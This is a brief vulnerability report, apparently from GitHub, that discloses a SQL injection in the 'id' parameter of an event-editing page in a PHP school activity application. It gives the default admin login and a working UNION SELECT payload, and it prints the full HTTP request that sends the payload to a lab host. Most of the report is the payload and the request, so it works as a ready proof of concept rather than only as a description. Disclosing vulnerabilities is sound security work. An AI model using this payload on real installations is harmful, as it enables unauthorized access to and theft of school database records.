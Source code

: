 # School Activity Updates with SMS Notification v1.0 by janobe has SQL injection

BUG_Author: Yc liu

Login account: admin/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/13799/school-activity-updates-sms-notification-phppdo.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /activity/admin/modules/event/index.php?view=edit&id=

Vulnerability location: /activity/admin/modules/event/index.php?view=edit&id=, id

dbname =db_wvsu

[+] Payload: /activity/admin/modules/event/index.php?view=edit&id=-201800036%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /activity/admin/modules/event/index.php?view=edit&id=-201800036%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183559343-29dc221c-3b7b-4b57-8e6b-55bdc9f090d4.png)
